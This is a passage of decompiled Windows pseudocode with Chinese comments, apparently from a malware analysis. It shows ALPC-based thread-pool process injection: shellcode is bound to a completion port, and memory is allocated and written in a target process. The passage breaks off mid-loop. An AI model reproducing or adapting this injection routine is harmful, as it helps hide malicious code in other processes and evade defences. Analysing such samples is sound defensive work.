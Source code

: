 ```
  TpAllocAlpcCompletion = GetProcAddress(v6, &#34;TpAllocAlpcCompletion&#34;);
  v8 = GetModuleHandleA(&#34;ntdll.dll&#34;);
  NtAlpcSetInformation = GetProcAddress(v8, &#34;NtAlpcSetInformation&#34;);
  v10 = GetModuleHandleA(&#34;ntdll.dll&#34;);
  NtAlpcConnectPort = GetProcAddress(v10, &#34;NtAlpcConnectPort&#34;);
//4.创建端口
  result = (NtAlpcCreatePort)(&v35, 0i64, 0i64);
if ( result >= 0 )
  {
    lpBuffer = 0i64;
      //5. 绑定Shellcode到完成端口
      //qword_18010A458是sub_180005370()返回
    result = (TpAllocAlpcCompletion)(&lpBuffer, v35, qword_18010A458, 0i64, 0i64);
    if ( result >= 0 )
    {
      v34 = v3;
      v33 = 393222;
      v39 = 0i64;
      v40 = 0;
      v38 = 48;
      v43 = 0i64;
      v41 = &v33;
      v42 = 0i64;
      v48 = 0i64;
      v49 = 0;
      v51 = 0i64;
      v52 = 0i64;
      v53 = 0i64;
      v54 = 0i64;
      v47 = 0x20000;
      v50 = 328i64;
        //创建端口
      result = (NtAlpcCreatePort)(&v36, &v38, &v47);
      if ( result >= 0 )
      {
          // 在目标进程分配内存
        v13 = VirtualAllocEx(hProcess, 0i64, 0x128ui64, 0x3000u, 4u);
           // 写入ALPC端口数据
        WriteProcessMemory(hProcess, v13, lpBuffer, 0x128ui64, 0i64);
        v37[1] = qword_18010A460;
        v37[0] = v13;
          // 设置端口共享属性
        (NtAlpcSetInformation)(v36, 2i64, v37, 16i64);
        v56 = 3145736;
        v14 = &v60;
        v59 = 0;
        memset(v55, 0, sizeof(v55));
        LODWORD(v55[0]) = 48;
          //6.混淆的ALPC消息构造过程
        v15 = &#34;Dive right in and make a splash,\n&#34;
              &#34;We're throwing a pool party in a flash!\n&#34;
              &#34;Bring your swimsuits and sunscreen galore,\n&#34;
              &#34;We'll turn up the heat and let the good times pour!\n&#34;;
        v16 = 7i64;
        v57 = 0i64;
        v58 = 0i64;
        do
        {
          v14 += 128;
          v17 = *v15;
          v18 = *(v15 + 1);
          v15 += 128;
          *(v14 - 8) = v17;
```